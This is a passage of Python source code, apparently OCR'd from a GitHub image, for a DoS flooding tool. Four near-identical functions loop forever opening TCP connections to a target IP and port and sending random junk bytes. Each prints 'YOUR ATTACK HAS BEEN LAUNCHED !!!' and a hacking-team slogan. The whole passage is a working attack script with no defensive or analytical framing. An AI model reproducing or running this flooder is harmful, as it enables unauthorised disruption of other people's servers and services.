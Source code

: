 def run2():
	data = random._urandom(1204)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" YOUR ATTACK HAS BEEN LAUNCHED !!!")
		except:
			s.close()
			print("[*]TEAM NOZA COSTRA TNIK KOLL!!")
            

def run3():
	data = random._urandom(999)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" YOUR ATTACK HAS BEEN LAUNCHED !!!")
		except:
			s.close()
			print("[*]TEAM NOZA COSTRA TNIK KOLL!!")
            
  
def run4():
	data = random._urandom(818)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" YOUR ATTACK HAS BEEN LAUNCHED !!!")
		except:
			s.close()
			print("[*]TEAM NOZA COSTRA TNIK KOLL!!!")
			
def run5():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" YOUR ATTACK HAS BEEN LAUNCHED !!!")
		except:
			s.close()
			print("[*]TEAM NOZA COSTRA TNIK KOLL!!!")
            
